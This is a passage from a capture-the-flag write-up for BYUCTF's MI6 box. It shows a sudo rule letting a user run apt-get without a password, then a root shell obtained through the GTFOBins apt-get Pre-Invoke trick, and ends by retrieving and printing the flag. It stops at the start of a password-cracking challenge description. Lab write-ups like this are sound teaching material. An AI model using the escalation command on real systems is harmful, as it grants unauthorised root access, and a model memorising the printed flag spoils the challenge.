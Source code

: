````sql

User q may run the following commands on MI6:
    (ALL) NOPASSWD: /usr/bin/apt-get
```

A quick look at GTFObins and we can see that we can escalate our privilege abusing this.

Source : https://gtfobins.github.io/

![GTFOBins_apt](https://github.com/V0lk3n/V0lk3n.github.io/assets/22322762/2bb28598-1d77-4ff4-b6ff-e7bd2b9307ae)

Let's exploit it.

```bash
q@MI6:~$ sudo /usr/bin/apt-get update -o APT::Update::Pre-Invoke::=/bin/sh
sudo /usr/bin/apt-get update -o APT::Update::Pre-Invoke::=/bin/sh
whoami
root
python3 -c 'import pty;pty.spawn("/bin/bash")'
root@MI6:/tmp#
```

Great we are root!! Let's retrieve the flag.

```bash
root@MI6:/tmp# cd /root
cd /root
root@MI6:/root# ls
ls
flag4.txt
root@MI6:/root# cat flag4.txt
cat flag4.txt
byuctf{sudo_mi6configured}
Good job Hacking!
Good luck on the other challenges!
```

![Flag4](https://github.com/V0lk3n/V0lk3n.github.io/assets/22322762/50f388bf-16de-4583-956f-1b976261345e)

FLAG : **byuctf{sudo_mi6configured}**

## Misc<a name="Misc"></a>

## 006 - 1<a name="006-1"></a>

Value : **100pts**

Difficulty : **Easy**

Author : **SugarFree**

Description :

```
In this James Bond themed CTF challenge, you're tasked with cracking the password of Janus, and evil crime lord, to access his encrypted files containing crucial information about the organization's plans for a devastating attack. Time is of the essence, and the fate of millions rests on your ability to crack the password and stop the impending disaster.

Flag format - byuctf{cracked_password}
```

````
